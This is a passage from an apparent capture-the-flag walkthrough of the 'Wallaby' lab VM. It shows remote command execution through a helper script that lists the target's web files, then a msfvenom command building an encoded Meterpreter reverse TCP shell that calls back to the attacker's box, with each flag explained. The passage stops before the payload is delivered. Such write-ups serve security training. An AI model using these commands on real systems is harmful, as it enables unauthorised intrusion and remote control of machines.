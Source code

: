 root@kali:~/wallaby# ~/src/wallaby/pcurl.py -s -c 'ls -lR'
...
.:
total 544
-rw-r--r-- 1 root     root      15953 Aug 11  2015 eye.jpg
-rw-r--r-- 1 root     root       3639 Dec 27  2016 index.php
-rw-r--r-- 1 root     root          0 Dec 27  2016 levelone.txt
drwxr-xr-x 2 root     root       4096 Dec 27  2016 s13!34g$3FVA5e@ed
-rw-r--r-- 1 root     root      57626 Dec 27  2016 sec.png
./s13!34g$3FVA5e@ed:
total 36
-rw-r--r-- 1 root root  339 Dec 27  2016 althome.php
-rw-r--r-- 1 root root  698 Dec 27  2016 blacklist.php
-rw-r--r-- 1 root root   78 Dec 16  2016 contact.php
-rw-r--r-- 1 root root  371 Dec 16  2016 first_visit.php
-rw-r--r-- 1 root root  379 Dec 16  2016 home.php
-rw-r--r-- 1 root root 1350 Dec 27  2016 honeypot.php
-rw-r--r-- 1 root root  213 Dec 15  2016 index.php
-rw-r--r-- 1 root root  461 Dec 16  2016 mailer.php
-rw-r--r-- 1 root root  667 Dec 16  2016 welcome.php
<h2 style='color:blue;'>Coming Soon guys!</h2>


200
root@kali:~/wallaby#
Getting a Meterpreter Shell
It was time to stop messing around and get into this thing, so here's a step by step of how to get a meterpreter shell on this box as the www-data user.

First we make a payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.167.130 LPORT=4444 -f elf -e x86/shikata_ga_nai -a x86 --platform linux -o revshell
There's a lot going on there; what, exactly, is this command?

-p specifies the payload we are making a linux, x86 payload for a meterpreter reverse shell over tcp

LHOST, LPORT are variables for this payload (and standard for all metasploit) LHOST is the listen host LPORT is the listen port (atack box).

-f format is elf (linux binary)

-e encoder is x86/shikata_ga_nai - I believe it is the best choice for an encoder unless you have a good reason to use a different one or know more about encoders than me (not hard!)

"SteveyDevey" is multi-lingual, and passionate about languages; he pointed out that "Shikata ga nai" means "it can't be helped" in Japanese and is a commonly used to describe acceptance in the wake of things that are uncontrollable or unavoidable https://en.wikipedia.org/wiki/Shikata_ga_nai

-a arch is x86 (target)

--platform is linux (target)

-o <filename> (name of our payload file)

Drop the Payload on the Target
After creating a payload, from the directory where your payload is, run

